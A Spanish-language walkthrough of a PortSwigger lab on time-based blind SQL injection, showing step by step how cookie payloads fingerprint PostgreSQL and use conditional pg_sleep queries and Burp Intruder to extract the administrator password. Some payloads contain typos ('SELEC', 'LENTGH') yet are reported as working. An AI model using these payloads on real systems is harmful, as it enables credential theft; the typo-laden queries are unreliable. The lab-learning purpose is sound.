





# Blind SQL injection with time delays and information retrieval

## 📌 Información del laboratorio

| Campo | Detalle |
|---|---|
| **Laboratorio** | Blind SQL injection with time delays and information retrieval |
| **Categoría** | SQL Injection (Time Delay-Based) |
| **Técnica** | Time delay para extraer información de query |
| **Motor de base de datos** | PostgreSQL |
| **Plataforma** | PortSwigger Web Security Academy |

🔗 [Acceder al laboratorio](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

---

## 🎯 Objetivo

Lograr que el portal devuelva la informacion del `users` y `password` de la tabla `users` a través del parámetro `TrackingId` pero con oraculo de time delay.

Teniendo en cuenta que la estructura interna de la query es similar a esto:

```sql
SELECT * FROM trackId WHERE id = '$cookieDeRastreo'
```

Puedo usar ese punto de entrada para inyectar funciones de delay según el motor de base de datos.

---

## 🔍 Detectando la vulnerabilidad

El punto de entrada es el parámetro `TrackingId`, una cookie que la aplicación usa para rastrear visitas. Intercepté la petición con Burp Suite e inyecté una comilla simple más doble guión para verificar que el input llega sin sanitización al backend:

```sql
Bz4xPKAdHK4mhMJr' --
```

La aplicación respondió sin ningún error, lo que confirma que el comentario SQL fue procesado correctamente.

---

## 🔎 Identificando el motor de base de datos (Fingerprinting)

Según el enunciado, el objetivo es provocar un delay de 10 segundos. Revisando el [Cheat Sheet de PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet), cada motor tiene su propia función para esto:

| Motor | Función de delay |
|---|---|
| Oracle | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft | `WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `pg_sleep(10)` |
| MySQL | `SLEEP(10)` |

Con el contexto de labs anteriores, los payloads quedarían así:

```sql
-- Oracle
xas' || (SELECT dbms_pipe.receive_message('a',10) FROM dual) --

-- Microsoft
xas'; WAITFOR DELAY '0:0:10' --

-- PostgreSQL
xas' || pg_sleep(10) --

-- MySQL
xas' AND SLEEP(10) --
```

---

### Prueba con Oracle

```sql
xas' || (SELECT dbms_pipe.receive_message('a',10) FROM dual) --
```

**Comportamiento:** No se produjo el delay de 10 segundos. Se descarta Oracle.

---

### Prueba con Microsoft

```sql
xas'; WAITFOR DELAY '0:0:10' --
```

**Comportamiento:** No se produjo el delay de 10 segundos. Se descarta Microsoft SQL Server.

---

### Prueba con MySQL

```sql
xas' AND SLEEP(10) --
```

**Comportamiento:** No se produjo el delay de 10 segundos. Se descarta MySQL.

---

### Prueba con PostgreSQL

```sql
xas' || pg_sleep(10) --
```

**Comportamiento:** El portal tardó exactamente 10 segundos en responder. Por lo que es igual al lab anterior.

> ✅ **Motor confirmado: PostgreSQL**

---

## Validación de usuario

Ahora tengo que usar una consulta condicional que me diga que cuando el usuario `administrador` sea correcto, nos arroje un tiempo de espera de 5 segundos (se baja el tiempo para no hacerlo tan largo, el promedio de la pagina en cargar los datos es casi de 2 segundos, por lo que este margen estaria bien).

Lo que mas me puede servir es el control condicional del lab 12 con estructura `||(SELECT CASE WHEN (EXISTS(SELECT * FROM users WHERE username='administrator')) THEN TO_CHAR(0/1) ELSE NULL END FROM dual)||`

Ahora solo debo cambiar la condicion a ejecutar y eliminar el llamado final a la tabla ya que es PostgreSQL y no Oracle:

```sql
|| (SELEC CASE WHEN (EXISTS(SELECT * FROM users WHERE username='administrator')) THEN pg_sleep(5) ELSE NULL END)
```

**Comportamiento:** Se hace la espera de 5 segundos, por lo que el usuario existe.

Ahora validare que el usuario no existe modificandolo y revisando que el portal responda en 2 segundos:

```sql
|| (SELEC CASE WHEN (EXISTS(SELECT * FROM users WHERE username='administrators')) THEN pg_sleep(5) ELSE NULL END)
```

**Comportamiento:** El portal carga en 2 segundos, mi query funciona para extraer datos.

---

## Extracción de password

Usando la misma query, valido la longitud de la password como en el lab 12 con LENGHT:

```sql
|| (SELECT CASE WHEN (EXISTS(SELECT * FROM users WHERE username='administrator' and LENTGH(password)>10)) THEN pg_sleep(5) ELSE NULL END)
```

**Comportamiento:** el portal demora 5 segundos en cargar, es mayor a 10

Ahora con 20:

```sql
||(SELECT CASE WHEN (EXISTS(SELECT * FROM users WHERE username='administrator' AND LENGTH(password)>20)) THEN pg_sleep(5) ELSE NULL END)
```

**Comportamiento:** El portal demora 2 segundos en cargar. Es menor a 20.

Ahora con igual a 20:

```sql
||(SELECT CASE WHEN (EXISTS(SELECT * FROM users WHERE username='administrator' AND LENGTH(password)=20)) THEN pg_sleep(5) ELSE NULL END)
```

**Evidencia:**



**Comportamiento:** El portal demora 5 segundos en cargar. Al igual que la anterior la password es de 20 caracteres.

Ahora tengo que hacer la fuerza bruta con la misma condicion haciendo uso de SUBSTR()

```sql
|| (SELECT CASE WHEN (EXISTS(SELECT * FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')) THEN pg_sleep(5) ELSE NULL END)
```

Esto lo envio al Intruder y agrego como variable el primero 1 para iterar la posicion de la letra y tambien agrego como variable la letra 'a'. Selecciono Cluster bomb attack y en las configuraciones selecciono lo siguiente:

`Payload position`: 1-1

`Payload type:` Numbers

`Max integer digits:` 2

`Payload position:` 2-a

`Payload type:` Brute forcer

`Min length:` 1

`Max length:` 1

Y lanzo el ataque.

Como no hay un texto al que hacerle match con el plugin de `Grep Match`, filtro de mayor a menor el `Response Received` y me enfoco solo en los que son mayores a 5000.

**Comportamiento:** Se obtienen las password donde Payload 1 es la posicion del caracter y Payload 2 es el caracter encontrado en dicha posicion.

**Evidencia:**



Teniendo como resultado:



> Password: yfm6fzoh8xedco0mraca

Ahora vamos al login y probamos las credenciales:



Y obtenemos el banner de labortario superado:



---

## ✅ Resultado

Se logró obtener informacion de las 2 tablas del enunciado mediante el control del tiempo de respuesta (nuestro oraculo) del servidor inyectando una función de delay a través del parámetro `TrackingId`.

El proceso completo fue:

1. Confirmar que el input llega sin sanitización al backend
2. Probar las funciones de delay de cada motor de base de datos en orden
3. Identificar PostgreSQL como el motor activo al obtener el delay esperado de 10 segundos
4. Se logra identificar el usuario `administrator` mediante el oraculo de el tiempo de respuesta y la condicional
5. Se logra hacer fuerza bruta a la password del usuarios `administrator` mediante el oraculo de tiempo de respuesta y la condicional con ayuda de los plugins de Burp Suite.

